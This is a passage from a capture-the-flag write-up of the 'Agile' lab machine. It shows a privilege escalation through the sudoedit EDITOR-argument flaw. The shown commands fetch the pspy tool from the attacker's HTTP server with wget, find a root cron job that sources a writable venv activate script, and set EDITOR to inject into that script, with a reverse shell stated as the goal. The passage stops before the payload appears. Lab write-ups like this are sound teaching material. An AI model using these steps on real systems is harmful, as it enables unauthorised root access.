 Version 1.9.9 will be before version 1.9.12, so this should be vulnerable! Execution seems very straightforward. If we include extra arguments in environment variables (SUDO_EDITOR, VISUAL, and EDITOR), sudoedit will allow us to edit files not meant to be edited. With this strategy, we can edit any file dev_admin can edit. Looking for interesting targets:

```bash
edwards@agile:/home/corum$ find / -user dev_admin 2>/dev/null
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json
edwards@agile:/home/corum$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

Using the sudoedit exploit, we should be able to alter any of these files. But how can we really benefit from adding a line or two in some of these files? If there is a regularly running program that takes input from one of these files, we can supply malicious commands for that user to execute. Ideally, if there is a cronjob running as root for regular intervals, we can have root execute some commands for us. We can check for things as they run using pspy. Sending pspy over to the box:
On my local kali, finding where I put pspy:
```
$ locate pspy              
/home/kali/Downloads/pspy64
                                                                                                                    
┌──(kali㉿kali)-[~/Downloads]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
On the Agile box, downloading and running pspy:
```bash
edwards@agile:/dev/shm$ wget 10.10.14.133/pspy64 && chmod +x pspy64
--2023-08-03 16:52:45--  http://10.10.14.133/pspy64
Connecting to 10.10.14.133:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                       100%[==============================================>]   2.96M  4.00MB/s    in 0.7s    

2023-08-03 16:52:46 (4.00 MB/s) - ‘pspy64’ saved [3104768/3104768]

edwards@agile:/dev/shm$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d
```

After waiting a brief period, we see the root user access one of the files we can control:
```bash
2023/08/03 16:56:01 CMD: UID=0     PID=51843  | /bin/bash -c source /app/venv/bin/activate
```
We can see `activate` being invoked. Using our sudoedit exploit, we can alter this file to communicate back to us through a reverse shell payload.
Setting up our environment variable:
```
edwards@agile:/dev/shm$ export EDITOR="vim -- /app/venv/bin/activate"
```
Now executing our sudoedit command:
```
edwards@agile:/dev/shm$ sudo -u dev_admin sudoedit /app/app-testing/tests/functional/creds.txt
```
